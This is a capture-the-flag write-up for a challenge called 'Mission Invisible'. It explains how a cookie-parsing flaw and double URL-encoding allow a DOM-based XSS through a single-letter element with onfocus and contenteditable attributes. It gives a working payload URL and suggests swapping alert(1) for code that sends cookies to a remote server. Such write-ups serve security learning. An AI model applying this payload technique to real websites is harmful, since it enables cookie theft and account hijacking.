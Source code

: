 # Mission Invisible

#### Score: 128


You need to obtain the flag through two different invisible places.  
http://52.52.236.217:16401/  
Submit payload here: http://52.52.236.217:16403/  
  
  
The page contains multiple JavaScript functions. It reads the value of the GET parameter named "tag", sets it as a cookie, and then,
using the data provided in the cookie, creates a DOM element:   

    var tag = getUrlParam("tag");
    setCookie("tag", tag);
    setElement(tag);
    
**setElement:**

    function setElement(tag) {
        tag = tag.substring(0, 1);
        var ele = document.createElement(tag)
        var attrs = getCookie("attrs").split("&");
        for (var i = 0; i < attrs.length; i++) {
            var key = attrs[i].split("=")[0];
            var value = attrs[i].split("=")[1];
            ele.setAttribute(key, value);
        }
        document.body.appendChild(ele);
    }

This function creates the element. You may notice two interesting things:  

1. A substring is preformed on the value of tag, and only the first char of the string is taken. That means that we can only create
tags that are single lettered. So no <script> tags, we are forced to use \<a\> or \<p\> for example.  
2. The function cycles through a cookie named **attrs**, splits it by **&**, and uses the data to create attributes for the tag.
Without figuring out how to set attributes, we only have a static, boring \<p\> tag, and it doesn't help us much. So how can we cause
the JavaScript code to set the attrs cookie?  

**getCookie:**

    function getCookie(name) {
        var search = name + "="
        var offset = document.cookie.indexOf(search)
        if (offset != -1) {
            offset += search.length;
            var end = document.cookie.indexOf(";", offset);
            if (end == -1) {
                end = document.cookie.length;
            }
            return unescape(document.cookie.substring(offset, end));
        }
        else return "";
    }

Well... We don't. Notice what happens when we visit the URL http://52.52.236.217:16401/?tag=pattrs=test
and run the following JS commands in the console:

    > document.cookie 
    < "tag=pattrs=test"
    
    > getCookie("attrs")
    < "test"
    
    
So what happend here? First, the page sets the tag cookie to the value "pattrs=test".
Because the function searches for **any** appearence of the string "attrs="
in the document.cookie string, it finds it in index 1: "p **attrs=** test".  

Now, if we will try to create a custom element, we encounter another problem:
http://52.52.236.217:16401/?tag=aattrs=href=https://google.com&test=yay

    <a href="https://google.com"></a>
    
We can't create elements with multiple attribute, because in the first function, **getUrlParam**, there's the following regex:

        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        
Which splits the string by the char "&". To bypass it we need to URL encode the sign "&" twice, like so:  

    escape(escape("&"))="%2526"  

Now that should work! http://52.52.236.217:16401/?tag=aattrs=href=https://google.com%2526test=yay  

To actually trigger the XSS, I've created the following p tag:

    <p id="wow" onfocus="alert(1)" contenteditable=""></p>
    
By appending a pragma hash to the end of the URL, We can make the browser automaticlly focus on the object and trigger the
**onfocus** event. For those who are not familiar with how the pragma hash works, the following link: http://site.com#wow would
cause the browser to automaticlly focus on the object that has the id "wow".  

The **contenteditable** attribute is needed to trigger the onfocus event.  

And here is the final payload: http://52.52.236.217:16401/?tag=pattrs=id=wow%2526onfocus=alert(1)%2526contentEditable=#wow
You can substitute the **alert(1)** with code that'll log the cookies of the browser to your remote server,
and get the flag that's hidden inside.
